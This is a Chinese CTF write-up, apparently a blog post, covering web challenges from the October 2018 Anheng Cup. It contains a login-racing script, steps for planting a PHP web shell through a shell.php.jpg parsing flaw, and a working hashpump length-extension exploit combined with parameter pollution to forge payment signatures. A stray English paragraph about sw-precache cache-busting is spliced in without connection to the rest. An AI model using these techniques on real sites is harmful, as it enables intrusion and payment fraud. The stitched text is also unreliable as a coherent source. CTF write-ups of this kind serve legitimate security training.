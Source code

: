 ```yaml
---
layout: post
title: 2018年安恒杯10月月赛&&周周练20-
author: "鲨鱼辣椒"
header-style: text
lang: zh
tags:
  - pwn
  - ctf
  - web
---
```


> [安恒杯月赛地址](https://www.linkedbyx.com/home)

## web
复现的时候环境已经关闭了，所以没有截图了

###手速要快（100分）:
打开网站，是一个登陆页面，抓包在返回包的包头里发现password字段，很快就会刷新，所以要写个脚本，读取password字段后立刻提交，脚本如下，经过测试需要带上cookie才能成功。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import requests
import re
import time

url1 = "http://101.71.29.5:10023/index.php"
response = requests.get(url=url1)
head = response.headers
# 将头信息转为可以进行json序列化的
x = requests.structures.CaseInsensitiveDict(head)
js = dict(x)
# print js # 此处打印出来的是一个json字符串
password=js.get("password")
cookie = js.get("Set-Cookie")
cookie=cookie[10:42]
url2 = "http://101.71.29.5:10023/login.php"
data = "password=123&submit_password=login"
data = {
        "password":password,
        "submit_password":""
    }
cookie = {'PHPSESSID': "5f3d0b93c3536da16830445227d1bad7"}
re2 = requests.post(url=url2,data=data,cookies=cookie)
print re2.text
print re2.cookies
```
登陆成功后跳转到一个上传页面，需要上传php木马，经过测试上传检测使用的是黑名单过滤，但是存在解析漏洞，上传shell.php.jpg即可getshell，flag在上级目录。

### Shop（300分）

`8月份人行比赛的原题`
本题考查了http参数污染和hash长度扩展攻击
HTTP 参数污染指的是在 HTTP 请求中 发送多个相同的参数，可能会导致一些非预期的结果。比如在 Querystring 中 发送两个 test 参数，Apache + PHP 会取最后一个:

```
http://127.0.0.1?test=123&test=456

$_GET['test']=456
```

而哈希长度扩展攻击适用于在消息与密钥的长度已知的情形下，所有采取了 H(密钥 ∥ 消息) 此类构造的散列函数。该攻击对 MD5 和 SHA-1 等基于 Merkle–Damgård 构造的算法有效。简单地说，就是当知道 MD5(secret) 时， 在不知道 secret 的情况下，可以很轻易的推算出 MD5(secret∥padding∥m’)
也就是说，我们需要结合上面两种手段，在原有的 Request Body 后追加 一些内容(padding 和用于覆盖的参数)，然后计算出新的 signature，完成支付。
我的exp如下，key长度可以从源代码里找到，或者直接爆破。

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from hashpumpy import hashpump
import requests
import re
sign = 'c5cc881eef97f4276b2c86bc0e42490e'
data ='order_id=72&buyer_id=19&good_id=38&buyer_point=300&good_price=888&order_create_time=1541586327.760354'
cookie = {'sessionid': 'aybgeojx2vtvekwt8bg8vqxjqde18na0'}
# sign = '58e9846626f7c1b8e80ac2da8b456e9d'
# data = 'order_id=91&buyer_id=22&good_id=34&buyer_point=200&good_price=50&order_create_time=1528269449.183292'
# cookie = {'sessionid': '6j31jogubedhgfo3pq8vlwploe5zzwmj'}
check_url = 'http://101.71.29.5:10014/payment/check'
#for i secret_key_length range(0,2000):
secret_key_length = 13
for i in range(1, 30):
    res = hashpump(sign, data, '&buyer_id={}'.format(i), secret_key_length)
    print(res)
    req = requests.post('{}?signature={}'.format(check_url, res[0]),
    data=res[1], cookies=cookie, headers={'Content-Type': 'application/x-www-form-urlencoded'})
    print(re.findall('\<h4\>.*?\<\/h4\>', req.text))
```

Instead of using raw URL as the cache key, sw-precache append a `_sw-precache=[hash]` to the end of each URL when populating, updating its cache and even fetching these subresouces. Those `_sw-precache=[hash]` are what we called **cache-busting parameter\***. It can prevent service worker from responding and caching out-of-date responses found in browsers’ HTTP cache indefinitely.

Because each build would re-calculate hashes and re-generate a new `sw.js` with new `precacheConfig` containing those new hashes, `sw.js` can now determine the version of each subresources thus decide what part of its cache needs a update. **This is pretty similar with what we commonly do when realizing long-term caching with webpack or gulp-rev, to do a byte-diff ahead of runtime.**

\*: Developer can opt out this behaviour with `dontCacheBustUrlsMatching` option if they set HTTP caching headers right. More details on [Jake’s Post](https://jakearchibald.com/2016/caching-best-practices/).

## easy audit和CoolCms没做出来，请参考下面微笑大神的博客，还有包括其他reverser和misc的一些题。

[https://www.smi1e.top](https://www.smi1e.top/%E5%AE%89%E6%81%92%E6%9D%AF%E6%9C%88%E8%B5%9Bwrite-up/)



[1]: https://www.linkedbyx.com/home
[2]: https://www.smi1e.top